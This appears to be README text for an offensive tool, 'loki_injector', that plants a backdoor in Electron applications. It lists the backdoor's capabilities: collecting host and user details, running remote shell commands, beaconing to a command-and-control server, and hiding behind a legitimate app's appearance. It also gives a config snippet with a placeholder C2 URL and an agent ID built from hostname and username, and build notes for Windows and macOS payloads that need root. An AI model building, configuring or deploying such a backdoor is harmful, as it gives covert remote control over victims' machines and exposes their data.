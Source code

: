 ## 🚀 Backdoor Capabilities

The injected backdoor provides:

- **System Information Collection**
  - Hostname
  - Username
  - Platform/OS
  - Current working directory

- **Command Execution**
  - Remote shell commands
  - Process spawning
  - Output capture

- **C2 Beaconing**
  - Periodic check-ins (60s default)
  - Unique agent ID
  - Configurable interval

- **Stealth**
  - Runs in Electron app context
  - No additional processes
  - Legitimate app appearance

## ⚙️ Configuration

### Change C2 Server URL

Before building Windows payload, edit `windows/loki_injector.py`:

```python
# Line ~30
const cfg = {
    srv: 'https://YOUR-C2-SERVER.com',  # ← Change this
    int: 60000,  # Beacon interval (milliseconds)
    id: `${os.hostname()}_${os.userInfo().username}`
};
```

For macOS, the executable is pre-built. To change C2:
1. Edit the source Python script
2. Rebuild on macOS: `pyinstaller --onefile loki_injector.py`

## 📊 Build Information

### Windows Payload
- **Source:** `windows/loki_injector.py` (8 KB)
- **Built Size:** ~10-15 MB (includes Python runtime)
- **Format:** PE32+ executable
- **Requirements:** Administrator privileges

### macOS Payload
- **Binary:** `mac/loki_injector_mac` (4.2 MB)
- **Format:** Mach-O 64-bit executable
- **Architecture:** Universal (ARM64 + Intel)
- **Requirements:** sudo/root privileges
